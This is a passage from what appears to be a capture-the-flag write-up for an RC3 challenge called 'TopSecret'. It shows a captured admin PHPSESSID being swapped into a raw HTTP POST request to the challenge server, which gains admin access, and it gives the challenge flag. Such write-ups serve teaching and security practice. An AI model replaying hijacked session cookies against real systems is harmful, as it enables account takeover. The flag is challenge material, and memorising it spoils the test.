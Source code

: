 Let's change the PHPSESSID to the admin's session ID (3f44e5dedf6b06b5da8c6e5ec7c0f4304f334a2ff2b1da3654942bab969e89765dae32faeabefdc0cf15d506c5146d96289dfa9929af7f60d65055d978e406ec).

```
POST http://162.243.171.85/ HTTP/1.1
Host: 162.243.171.85
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:42.0) Gecko/20100101 Firefox/42.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://162.243.171.85/
Cookie: PHPSESSID=3f44e5dedf6b06b5da8c6e5ec7c0f4304f334a2ff2b1da3654942bab969e89765dae32faeabefdc0cf15d506c5146d96289dfa9929af7f60d65055d978e406ec
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

secret=test
```

Now look at the web application. It thinks we are the admin.

[![flag]({{site.url}}/images/rc3/TopSecret/flag.png)]({{site.url}}/images/rc3/TopSecret/flag.png)

The flag is **RC3-SECRETSS-6277598130**. Feel free to check out [sqlmap_notes.txt]({{site.url}}/assets/rc3/TopSecret/sqlmap_notes.txt) to see the actual sqlmap requests.
